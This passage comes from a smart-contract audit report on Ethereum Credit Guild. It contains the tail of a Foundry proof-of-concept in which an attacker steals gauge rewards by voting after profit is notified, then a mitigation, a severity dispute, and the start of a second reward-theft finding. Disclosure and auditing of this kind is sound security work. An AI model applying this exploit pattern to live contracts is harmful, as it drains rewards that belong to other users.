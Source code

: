 ```solidity
        //Attacker votes for a gauge after it notifies profit
        //The userGaugeProfitIndex of the attacker is not set 
        vm.prank(attacker);
        guild.incrementGauge(gauge1, 150e18);
       
        //Because the userGaugeProfitIndex is not set it will be set to 1e18
        //The gaugeProfitIndex will be 1.025e18 so the attacker will steal the rewards
        profitManager.claimGaugeRewards(attacker,gauge1);
        console.log(credit.balanceOf(attacker));

        //Other users will then fail to claim their rewards
        vm.expectRevert(bytes("ERC20: transfer amount exceeds balance"));
        profitManager.claimGaugeRewards(bob,gauge1);
        console.log(credit.balanceOf(bob));
    }
```

### Tools Used

Foundry

### Recommended Mitigation Steps

When `userGaugeProfitIndex` equals `0` it should be set to the current `gaugeProfitIndex` and it should be set the first time `claimGaugeRewards()` is called.

**[eswak (Ethereum Credit Guild) confirmed, but disagreed with severity and commented via duplicate issue #1211](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1211#issuecomment-1893842567):**
> Disputing severity (I think it's more fit for medium because there is no loss of user funds, just rewards).

**[TrungOre (judge) commented via duplicate issue #1211](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1211#issuecomment-1901052544):**
> I consider this issue a high severity because the rewards in ProfitManager are matured yield, which should be distributed to the intended users. The loss of matured yield is considered a high-severity issue based on C4's criteria.

***

## [[H-02] Anyone can steal all distributed rewards](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/991)
*Submitted by [evmboi32](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/991), also found by [Soul22](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1096), [stackachu](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/983), [0xadrii](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/897), [KingNFT](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/654), [Jorgect](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/633), [Tendency](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/612), [SpicyMeatball](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/604), [c47ch3m4ll](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/527), [0xAlix2](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/304), [3docSec](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/291), [kaden](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/265), and [critical-or-high](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/91)*
